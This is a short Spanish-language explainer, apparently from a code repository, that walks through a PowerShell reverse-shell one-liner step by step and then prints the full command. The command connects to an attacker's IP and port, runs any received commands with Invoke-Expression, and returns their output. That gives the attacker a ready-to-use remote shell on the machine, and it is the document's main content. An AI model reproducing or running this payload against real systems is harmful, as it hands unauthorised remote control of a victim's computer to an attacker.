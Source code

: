 one-liner de PowerShell para establecer una reverse shell:

    powershell -c ": Esto indica que se está ejecutando PowerShell y que se proporcionará un comando a través de la opción -c, que permite ejecutar un comando como argumento de la línea de comandos de PowerShell.

    "$client = New-Object System.Net.Sockets.TcpClient('tu_ip', tu_puerto);": Esta parte del código crea un objeto TcpClient de .NET para establecer una conexión TCP con la dirección IP y el puerto especificados del atacante. Reemplaza 'tu_ip' y 'tu_puerto' con la dirección IP y el puerto del atacante.

    "$stream = $client.GetStream();": Se obtiene el flujo de datos asociado con el cliente TCP recién creado.

    "[byte[]]$bytes = 0..65535|%{0};": Se inicializa un arreglo de bytes vacío con una longitud máxima de 65536 bytes. Esto se usará para almacenar los datos recibidos de la conexión.

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;: Se inicia un bucle while que continúa leyendo datos del flujo hasta que no hay más datos disponibles.

    ;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);: Se convierten los bytes leídos en una cadena ASCII.

    ;$sendback = (iex $data 2>&1 | Out-String );: Se ejecuta el comando recibido ($data) utilizando iex, que es un alias para el cmdlet Invoke-Expression. Esto ejecuta el comando y captura su salida. El 2>&1 redirige los errores a la salida estándar. Out-String convierte la salida en una cadena para su posterior envío.

    ;$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';: Se crea una cadena que contiene la salida del comando ejecutado y la ruta del directorio actual de PowerShell, para simular un indicador de comando (PS).

    ;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);: Se convierte la cadena $sendback2 en una secuencia de bytes utilizando codificación ASCII.

    ;$stream.Write($sendbyte,0,$sendbyte.Length);: Se envían los bytes al flujo de datos para que sean transmitidos al atacante.

    ;$stream.Flush()};: Se vacía el búfer de salida para asegurarse de que todos los datos se envíen al atacante.

    $client.Close()": Se cierra la conexión TCP con el atacante una vez que el bucle while ha terminado de ejecutarse.

```

powershell -c "$client = New-Object System.Net.Sockets.TcpClient('tu_ip', tu_puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
